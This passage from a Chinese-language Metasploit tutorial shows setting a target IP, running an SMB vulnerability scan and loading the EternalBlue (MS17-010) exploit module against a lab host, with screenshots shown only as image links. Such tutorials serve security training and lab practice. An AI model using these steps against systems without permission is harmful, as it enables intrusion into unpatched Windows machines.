## 6.5.**设置参数**

这里需要设置一个IP地址参数。可以使用show options来查看哪些参数是必设的，哪些是可选设置的，从下图可以看到我们需要设置一个IP地址。

![img](assets/wps45.jpg) 

命令：set rhosts 192.168.10.40

在设置完后，可以看到必选参数我们填入进入了，然后通过show options来查看我们来设置的信息了。

![img](assets/wps46.jpg) 

## 6.6.**执行扫描**

命令：run

![img](assets/wps47.jpg) 

## 6.7.**选择攻击模块**

当知道可能造成攻击后，那么就可以选在攻击模块进行攻击了。

命令：use exploit/windows/smb/ms17_010_eternalblue 

![img](assets/wps48.jpg) 

## 6.8.**设置参数**
